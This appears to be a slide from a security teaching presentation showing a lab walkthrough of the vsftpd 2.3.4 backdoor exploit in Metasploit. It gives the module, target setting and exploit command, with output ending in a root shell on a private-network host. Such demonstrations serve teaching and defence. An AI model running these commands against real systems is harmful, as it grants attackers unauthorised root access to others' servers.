

# Breaking vsftpd v2.3.4
(Within Metasploit Console)
msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST 172.16.63.132
RHOST => 172.16.63.132
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > exploit
[*] 172.16.63.132:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 172.16.63.132:21 - USER: 331 Please specify the password.
[+] 172.16.63.132:21 - Backdoor service has been spawned, handling...
[+] 172.16.63.132:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (172.16.63.133:38415 -> 172.16.63.132:6200) at 2019-11-22 04:40:41
whoami;
Root        ←bamboozled